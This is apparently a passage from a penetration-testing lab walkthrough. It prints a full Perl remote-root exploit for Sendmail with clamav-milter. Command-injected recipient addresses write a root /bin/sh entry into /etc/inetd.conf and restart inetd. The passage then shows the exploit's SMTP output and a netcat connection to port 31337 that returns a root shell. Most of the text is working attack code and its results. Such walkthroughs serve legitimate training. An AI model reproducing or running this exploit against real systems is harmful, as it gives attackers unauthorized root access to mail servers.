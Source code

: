 ```bash

print "Sendmail w/ clamav-milter Remote Root Exploit\n"; print "Copyright (C) 2007 Eliteboy\n";
if ($#ARGV != 0) {print "Give me a host to connect.\n";exit;} print "Attacking $ARGV[0]...\n";
$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                                PeerPort => '25',
                                Proto    => 'tcp');
print $sock "ehlo you\r\n";
print $sock "mail from: <>\r\n";
print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
print $sock "rcpt to: <nobody+\"|/etc/init.d/inetd restart\"@localhost>\r\n"; print $sock "data\r\n.\r\nquit\r\n";
  while (<$sock>) {
          print;
}

This exploit should hopefully open a bind shell on the target on TCP port 31337. Let’s give the exploit executable permissions, and then run it:

kali@kali:~$ chmod 777 4761.pl
kali@kali:~$
kali@kali:~$ ./4761.pl 192.168.120.144
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.120.144...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 3 Aug 2020 16:30:08 -0400; (No UCE/UBE) logging access from: [192.168.118.3](FAIL)-[192.168.118.3]
250-localhost.localdomain Hello [192.168.118.3], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 073KU8jk004063 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
kali@kali:~$

If everything worked correctly, we should now be able to connect to the target on port 31337:

kali@kali:~$ nc -nv 192.168.120.144 31337
(UNKNOWN) [192.168.120.144] 31337 (?) open
whoami
root

Escalation

As the vulnerable service was running with root privileges, no further privilege escalation is needed.
```
